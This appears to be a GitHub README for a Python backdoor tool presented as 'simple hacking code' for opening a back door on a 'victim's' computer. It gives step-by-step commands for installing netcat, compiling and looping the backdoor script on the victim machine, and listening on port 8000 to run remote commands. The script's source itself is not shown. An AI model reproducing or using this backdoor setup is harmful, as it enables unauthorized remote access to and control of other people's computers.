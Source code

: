 
#Python Back Door(Hacking) script


![N|Solid](https://avatars2.githubusercontent.com/u/1525981?v=3&s=200)  ![N|Solid](https://www.doubleglazingontheweb.co.uk/wp-content/uploads/2015/11/white-upvc-back-door-250x250.jpg) 




###This is really simple Python hacking code. 

###easy to saying, you can use the Python built-in function to open the back-door on your opponent's(victims) computer.


But it's a simulated hacking exercise,
Assuming that the victim executes the python script that was compiled.
The first thing we do is start to think about it.

###We will use a great open source tool called  "NetCat"
http://netcat.sourceforge.net/

##If you are a user of OSX, you can download it easily. by 

```sh
$ brew install netcat
```
##Or if you are a linux user

```sh
$ apt-get install netcat
```

##Right now you can run in your own backyard or anywhere 


```sh
**********************victim's computer or shell***********************
$ ##lets compile###
$ python -m compileall back_door.py    
-------------------------------------------------------

this is shell bash script 
which mean , run this script every 1 sec..!
-----------------------------------------------
$ while true; do python back_door.pyc; sleep 1; done


```


##Open another shell try this netcat command
```sh
$ netcat -l -p 8000 
```

you can 
```sh
$ ifconfig 
```
![N|Solid](https://github.com/elastic7327/backdoor_tool/blob/master/picture/do%20ifconfig.png)


you can also do 
```sh
$ ls -al 
```
![N|Solid](https://github.com/elastic7327/backdoor_tool/blob/master/picture/do%20ls%20-al.png)


##and you can do what ever you want!!! except for sudo command!


